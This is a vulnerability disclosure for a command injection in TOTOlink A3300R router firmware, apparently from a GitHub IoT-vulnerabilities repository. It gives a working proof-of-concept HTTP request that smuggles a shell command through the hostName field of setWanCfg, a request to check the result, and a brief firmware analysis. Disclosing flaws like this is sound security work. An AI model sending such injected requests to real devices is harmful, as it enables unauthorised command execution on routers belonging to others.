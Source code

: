 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setWanCfg` request,`hostName` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=07A82EFFF70D2D6B HTTP/1.1
Host: itotolink.net
Content-Length: 201
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/wan.html?token=07A82EFFF70D2D6B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"hostName":"TOTOLINK`ls>/web/123.txt`","dhcpMtu":"1500","proto":1,"dnsMode":"0","ttlWay":"1","lcpEchoEnable":"1","option60Enable":"0","clone":"0","cloneMac":"40:EE:15:D4:88:6D","topicurl":"setWanCfg"}
```

injection the command "ls>/web/123.txt"

![image-20240109130008597](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109130008597.png)

check the result.

```
GET /123.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://itotolink.net/advance/upload.html?token=07A82EFFF70D2D6B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

![image-20240109130149275](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109130149275.png)

## Analysis

sub_422380 will handle the `setWanCfg` request. sub_422380 get `hostName` parameter from request body, then pass to `doSystem` function.

![image-20240109125531671](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109125531671.png)
